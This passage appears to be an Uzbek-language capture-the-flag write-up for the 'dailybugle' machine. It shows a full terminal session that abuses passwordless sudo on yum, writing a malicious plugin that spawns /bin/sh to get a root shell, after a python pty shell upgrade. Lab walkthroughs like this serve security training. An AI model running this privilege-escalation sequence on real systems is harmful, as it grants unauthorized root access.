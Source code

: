 yum dasturini sudo bilan parolsiz ishlata olar ekanmiz.

Bundan foydalanib qanday ROOT huquqini olish esa GTFobinsda aytib o'tilgan.

Link: https://gtfobins.github.io/gtfobins/yum/#sudo


Hozir terminal abgor ahvolda uni keling sal yaxshilaymiz.

Buyruq:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Natija:

```
[jjameson@dailybugle ~]$ 
```

Jarayon:

```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
cat >$TF/x<<EOF
> [main]
[main]
> plugins=1
plugins=1
> pluginpath=$TF
pluginpath=$TF
> pluginconfpath=$TF
pluginconfpath=$TF
> EOF
EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
cat >$TF/y.conf<<EOF
> [main]
[main]
> enabled=1
enabled=1
> EOF   
EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
cat >$TF/y.py<<EOF
> import os
import os
> import yum
import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
requires_api_version='2.1'
> def init_hook(conduit):
def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
  os.execl('/bin/sh','/bin/sh')
> EOF

EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
```